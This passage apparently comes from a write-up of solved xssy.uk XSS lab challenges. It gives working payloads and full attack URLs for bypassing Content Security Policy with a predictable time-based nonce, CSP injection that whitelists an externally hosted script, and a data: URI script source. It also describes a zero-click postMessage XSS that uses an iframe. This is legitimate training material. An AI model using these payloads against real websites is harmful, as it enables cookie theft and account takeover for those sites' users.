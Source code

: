 - **Description**: Learn something new - Bypass popup blocker in browser by Iframe. Because this lab requires zero-click XSS, learned new technique where `<body onload=exploit()>` blocked by browser security, we use iframe. We add `"exploit"` parameter in `window.open()`, when exploit function called by onload instead of open new tab, the URL will opened in iframe `<iframe name="exploit">`. Lab solved by hosting this code to attacker server, when victim opens the link, post-message XSS will triggered.

---

### Lab 679: CSP Bypass - Nonce Predictable Bypass
- **URL Lab**: https://xssy.uk/lab/679
- **Payload**: 
```html
<script nonce="2025-10-25T0905Z">alert(document.cookie)</script>
```
- **Full URL**: 
```
https://yv6x4r7r.xssy.uk/target.ftl?name=%3Cscript+nonce%3D%222025-10-25T0905Z%22%3Ealert%28document.cookie%29%3C%2Fscript%3E
```
- **Description**: When review the CSP directive, nonce value seems like based on time:
```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; img-src https://xssy.uk/; style-src 'unsafe-inline'; script-src 'nonce-2025-10-25T0905Z'">
```
Use this script to find the nonce value of time:
```javascript
new Date().toISOString().slice(0,16).replace(':','') + 'Z'   // => "2025-10-25T0905Z"
```

---

### Lab 182: CSP - Injection Bypass
- **URL Lab**: https://xssy.uk/lab/182
- **Payload**: 
```
lang=https://eqh42jmm.xssy.uk/alert
name=<script src="https://eqh42jmm.xssy.uk/alert.js"></script>
```
- **Full URL**: 
```
https://2l5dad5g.xssy.uk/target.ftl?lang=https://eqh42jmm.xssy.uk/alert&name=<script src="https://eqh42jmm.xssy.uk/alert.js"></script>
```
- **Description**: Hosted code `alert(document.cookie)` to https://eqh42jmm.xssy.uk/alert.js. Because `lang=https://eqh42jmm.xssy.uk/alert.js` already has `.js` automatically, only input `https://eqh42jmm.xssy.uk/alert` to modify CSP to whitelist this URL. Then in parameter `name`, inject payload XSS via `<script src="https://eqh42jmm.xssy.uk/alert.js"></script>` that was hosted & whitelisted to bypass CSP.

---

### Lab 181: CSP - Data URI Bypass
- **URL Lab**: https://xssy.uk/lab/181
- **Payload**: 
```html
<script src="data:text/javascript,alert(document.cookie)"></script>
```
- **Full URL**: 
```
https://6cpdhsai.xssy.uk/target.ftl?name=%3Cscript%20src%3D%22data%3Atext%2Fjavascript%2Calert%2528document.cookie%2529%22%3E%3C%2Fscript%3E
```
- **Description**: The protection: only can load script-src from `'data'`. Need to URL encode.

---